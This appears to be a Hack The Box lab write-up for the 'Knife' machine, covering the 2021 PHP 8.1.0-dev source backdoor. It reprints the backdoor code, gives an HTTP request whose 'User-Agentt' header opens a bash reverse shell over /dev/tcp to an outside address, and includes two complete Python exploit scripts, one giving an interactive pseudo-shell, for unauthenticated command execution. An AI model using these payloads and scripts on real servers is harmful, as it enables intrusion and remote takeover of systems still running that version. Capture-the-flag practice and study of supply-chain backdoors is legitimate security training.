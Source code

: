 ```yaml
---
title: HTB Write Up - Knife
date: 2023-11-10 12:00:00
categories: [Pentest, HTB]
tags: [HTB]
img_path: /assets/img/htb/
---
```


## Step 1: Info gathering 
### Nmap

![](https://i.imgur.com/Jsb8j7r.png)

### Nikto
![](https://i.imgur.com/QpiosT3.png)

## Step 2: Vulnerablilty analysis 

### php 8.1.0-dev

>Two updates pushed to the PHP Git server added a line that, "if run by a PHP-powered website, would have allowed visitors with no authorization to execute code of their choice. The malicious commits here and here gave the code the code-injection capability to visitors who had the word “**zerodium**” in an HTTP header."
>
>The commits were made to the php-src repo under the account names of two well-known PHP developers, Rasmus Lerdorf and Nikita Popov. “We don't yet know how exactly this happened, but everything points toward a compromise of the git.php.net server (rather than a compromise of an individual git account),” Popov wrote in a notice published on Sunday night.
In the aftermath of the compromise, Popov said that PHP maintainers have concluded that their standalone Git infrastructure is an unnecessary security risk. As a result, they will discontinue the git.php.net server and make GitHub the official source for PHP repositories. Going forward, all PHP source code changes will be made directly to GitHub rather than to git.php.net.
>
>The malicious changes came to public attention no later than Sunday night by developers including Markus Staab, Jake Birchallf, and Michael Voříšek as they scrutinized a commit made on Saturday. The update, which purported to fix a typo, was made under an account that used Lerdorf’s name. Shortly after the first discovery, Voříšek spotted the second malicious commit, which was made under Popov’s account name. It purported to revert the previous typo fix.
>
>Zerodium is a broker that buys exploits from researchers and sells them to government agencies for use in investigations or other purposes. Why the commits referenced Zerodium is not clear. The company’s CEO, Chaouki Bekrar, said on Twitter Monday that Zerodium wasn’t involved.
{: .prompt-tip }

[Reference](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/)


```php
zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
```
![](https://i.imgur.com/yh1qDaj.png)

## Step 3: Exploit 

### Method 1: using Burpsuite 
```http
GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
User-Agenttwho: zerodiumsystem("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.78/1444 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

### Method 2: using Python
```python
# Exploit Title: PHP 8.1.0-dev (backdoor) | Remote Command Injection (Unauthenticated)
# Date: 23/05/2021
# Exploit Author: Richard Jones
# Vendor Homepage: https://www.php.net/
# Software Link: https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor
# Version: PHP 8.1.0-dev
# Tested on: Linux Ubuntu 20.04.2 LTS (5.4.0-72-generic)

# Based on the recent PHP/8.1.0-dev backdoor
# Infomation: https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370
# Reference: https://news-web.php.net/php.internals/113838
# Vuln code in the link above (Original)
# When adding "zerodium" or  at the start of the user-agent field, will execute php code on the server
#  convert_to_string(enc);
#	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
#		zend_try {
#			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");


#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls

#!/usr/bin/env python3
import requests
import argparse

from requests.models import parse_header_links 

s = requests.Session()

def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False


def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())


def main():

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()

    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
    
if __name__ == "__main__":
    main()
```
or 
```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
            
```

## Step 4: Privilege escalation
Why not try Dirty_COW??

